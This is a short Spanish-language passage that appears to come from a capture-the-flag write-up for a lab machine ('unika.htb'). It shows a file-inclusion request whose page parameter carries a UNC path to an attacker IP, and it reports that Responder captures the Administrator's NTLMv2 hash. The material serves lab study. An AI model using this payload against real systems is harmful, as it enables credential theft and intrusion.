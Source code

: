 ![Responder yw4rf](responder-14.png)

Accedemos a `unika.htb/index.php?page=\\10.10.15.52\test\test` para capturar el hash **NTLM** 

![Responder yw4rf](responder-15.png)

**Responder** captura el hash **NTLMv2**: El username es `Administrator`

![Responder yw4rf](responder-16.png)
